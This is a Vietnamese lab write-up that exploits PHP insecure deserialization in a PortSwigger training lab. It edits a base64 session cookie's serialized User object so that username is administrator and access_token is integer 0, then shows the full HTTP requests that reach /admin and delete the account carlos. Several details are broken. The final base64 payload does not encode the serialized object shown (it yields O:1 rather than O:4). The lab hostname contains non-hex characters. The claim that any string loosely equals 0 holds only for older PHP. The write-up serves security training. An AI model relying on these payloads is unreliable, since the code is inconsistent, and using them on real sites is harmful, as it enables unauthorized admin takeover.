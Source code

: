 # Write-up: Modifying serialized data types

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi cookie `session` chứa đối tượng serialized `User` được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách sửa đổi kiểu dữ liệu của thuộc tính `access_token` từ string sang integer, kẻ tấn công lợi dụng cơ chế so sánh lỏng lẻo (`==`) trong PHP để bypass kiểm tra xác thực, leo thang đặc quyền thành `administrator`, và xóa tài khoản `carlos`, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách sửa đổi kiểu dữ liệu của `access_token` trong đối tượng `User` serialized, đặt `username` thành `administrator` để bypass kiểm tra xác thực, truy cập giao diện admin và xóa tài khoản `carlos`, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và quan sát cookie `session` trong Burp Proxy:  
  ```
  GET /my-account HTTP/2
  Host: 0aa1008i09jk0123e0fg078900hi00fe.web-security-academy.net
  Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJzYnB1cnM1enI5ZG81ajg0eHFxcDVrZG5sb3Z6MHZ6ZSI7fQ==
  ```
    ![cookie](./images/1_cookie.png)
- **Phân tích cookie**:  
  - Giải mã Base64, cookie chứa đối tượng serialized: 
    ![decode](./images/2_decocde.png)
    ```php
    O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"sbpurs5zr9do5j84xqqp5kdnlovz0vze";}
    ```  
  - Đoán rằng ứng dụng so sánh `access_token` với giá trị lưu trong cơ sở dữ liệu:  
    ```php
    if ($access_tokens[$user->username] == $user->access_token) {
        // login thành công
    } else {
        throw new Exception("Invalid access token");
    }
    ```  
  - Trong PHP, so sánh lỏng lẻo (`==`) cho phép bypass nếu `access_token` là integer `0`, vì bất kỳ chuỗi nào so sánh với `0` đều trả về `true` (ví dụ: `"abc123" == 0` là `true`).

2. **Khai thác (Exploitation)**  
- **Ý tưởng khai thác**:  
  - Sửa đối tượng `User` serialized, đặt `username` thành `administrator` và `access_token` thành integer `0` để bypass kiểm tra so sánh lỏng lẻo.  
  - Payload:  
    ```php
    O:4:"User":2:{s:8:"username";s:13:"administrator";s:12:"access_token";i:0;}
    ```  
- Mã hóa payload thành Base64:  
    ![encode](./images/3_encode.png)
  ```
  TzoxOiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
  ```  
- Thay thế cookie `session` trong Burp Repeater:  
  ```
  GET /admin HTTP/2
  Host: 0aa1008i09jk0123e0fg078900hi00fe.web-security-academy.net
  Cookie: session=TzoxOiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9
  ```  
- Gửi request, server unserialize cookie, bypass kiểm tra `access_token` (`"abc123" == 0` trả về `true`), cấp quyền truy cập giao diện admin:  
  ![Payload bypass kiểm tra](./images/4_admin.png)  
- Truy cập `/admin` và xóa tài khoản `carlos` (thường qua endpoint như `POST /admin/delete?username=carlos`):  
  ```
  POST /admin/delete HTTP/2
  Host: 0aa1008i09jk0123e0fg078900hi00fe.web-security-academy.net
  Cookie: session=TzoxOiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjEzOiJhZG1pbmlzdHJhdG9yIjtzOjEyOiJhY2Nlc3NfdG9rZW4iO2k6MDt9

  username=carlos
  ```  
  ![delete](./images/5_delete.png)
- **Ý tưởng payload**:  
  - Sửa `username` thành `administrator` và `access_token` thành `i:0` để bypass so sánh lỏng lẻo, leo thang đặc quyền và xóa tài khoản `carlos`.  
- **Kết quả**:  
  - Tài khoản `carlos` bị xóa, lab xác nhận hoàn thành:  
    ![Lab hoàn thành](./images/6_solved.png)  

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong PHP bằng cách sửa đổi kiểu dữ liệu của `access_token` từ string sang integer, tận dụng so sánh lỏng lẻo (`==`) để bypass kiểm tra xác thực và leo thang đặc quyền.  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP bằng cách lợi dụng so sánh lỏng lẻo, nhấn mạnh tầm quan trọng của việc kiểm tra kiểu dữ liệu nghiêm ngặt và bảo vệ dữ liệu serialized để ngăn chặn leo thang đặc quyền. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*